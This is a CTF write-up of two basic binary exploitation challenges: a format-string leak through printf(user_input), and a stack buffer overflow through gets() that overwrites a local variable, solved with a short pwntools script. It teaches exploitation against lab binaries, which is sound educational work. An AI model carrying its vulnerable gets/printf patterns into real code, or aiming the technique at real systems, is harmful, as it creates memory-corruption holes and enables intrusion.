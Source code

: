 # PWN : Detailed binary exploitation writeup 
I have created a simple writeup about the four tasks I completed in the CTF.
all these tasks involve basic binary exploitation vulnerabilities , you just need to identify the vulnerability and how to exploit it.
There are no stripped binaries or anything complex , everything is straightforward.
## First challenge ( Warmup ) : simple format string vulnerability
In this task, you are provided with a simple binary. If you try to reverse it and dig a little deeper, you will find something interesting.
```C
      printf("Tell me your secret >> ");
      fgets(local_228,0x108,stdin);
      iVar1 = strncmp(local_228,local_118,0x108);
      if (iVar1 == 0) break;
      printf(local_228);
```
The function printf() doesn't specify the type of the variable that it's going to print. In this case, we have a format string vulnerability, allowing us to leak data from the stack.
```C
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("The flag.txt file does not exist, please create it");
    uVar2 = 0xffffffff;
  }
```
Additionally, we have read the flag from the server and stored it in memory, so it's possible to leak the flag from memory.

## Second challenge ( Baby BOF ) : Buffer overflow to overwrite variable value
first of all we have to check the binary if the mitigations are enabled :
```console
checksec babybof
[*] '/home/elmentos/Desktop/Romdhan_CTF_TASKS/BabyBOF(Done)/to_host/babybof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
In this case, the buffer overflow protection is disabled, so let's dig deeper and see how we can exploit this to solve the challenge.
After reversing the binary with ghidra we have found :
```C
  char local_38 [44];
  int local_c;
  setup();
  local_c = 0x1337;
  puts(
      "*---------------------------------------------------------------x1NF3RN0x-------------------- ---------------------------------------*"
      );
  puts(
      "*-------They told me that there are new pwn learners in this CTF, so I made this as an intro to buffer overflow---------------------*"
      );
  puts(
      "*-------Show me what you can do, and I will tell you my secret. Good luck!<3----------------- ---------------------------------------*"
      );
  printf("*-------Tell me the secret of the Spark Vault locker ^-^ : ");
  gets(local_38);
  if (local_c == 0x1338) {
    puts("You won :),that was easy right !!!!!!!! \n");
    puts("Here is my secret :\n");
    system("/bin/cat flag.txt");
```
Here, we have a variable called local_38 declared with a size of 44 bytes. The issue is that there is no user input control for the length of local_38, so we can overflow the memory. In other words, we can access other memory cells.
!! Don't use gets
so in this challenge we have a variable called local_c intialized with the value 0x1337 , we have to overwrite it with 0x1338 to make the condition true to let the program print the flag .
### First Step : search for the appropriate offest between the input var (local_38) and the local_c in other words we have to search how many bytes to write until we reach the local_c :
don't worry, assembly is easy , you just have to take your time learning it. 
Anyway, here we have, after the printf function:
```asm
   0x0000000000401276 <+89>:	call   0x4010b0 <printf@plt>
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
   0x000000000040127f <+98>:	mov    rdi,rax
   0x0000000000401282 <+101>:	mov    eax,0x0
   0x0000000000401287 <+106>:	call   0x4010c0 <gets@plt>
   0x000000000040128c <+111>:	cmp    DWORD PTR [rbp-0x4],0x1338
```
```asm
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
```
This instruction saves the address of rbp-0x30 in the register rax. Logically, he is planning to pass the rax register as an argument to the get functions. After that, he is calling the gets function. So here, we can conclude that he is storing the input in rbp-0x30 : 
```asm
   0x000000000040127b <+94>:	lea    rax,[rbp-0x30]
   0x000000000040127f <+98>:	mov    rdi,rax
   0x0000000000401282 <+101>:	mov    eax,0x0
   0x0000000000401287 <+106>:	call   0x4010c0 <gets@plt>
```
And in this part, he is comparing the value that is stored in rbp-0x4 with 0x1338, so we can conclude that the variable we have to overwrite is at the address rbp-0x4 :
```asm
   0x000000000040128c <+111>:	cmp    DWORD PTR [rbp-0x4],0x1338
```
so now lets' calculate the offset between the input ( local_38 ) and the variable we have to overwrite ( local_c ) :
0x30 - 0x4 = 44 (in decimal)
let's craft our payload : 
```python
  padding = b"A" * 44
  payload = padding + p64(0x1338)
```
The padding or the offset + the value we have to overwrite local_c with  in little endian format and size of 8 bytes because we are working with a 64-bit architecture.
```python
  #!/usr/bin/python3
  from pwn import *
  p = process('./babybof')
  padding = b"A" * 44
  print(padding)
  payload = padding + p64(0x1338)
  print(p.clean().decode())
  print(payload)
  print(payload.decode())
  p.sendline(payload)
  print(p.clean())
```
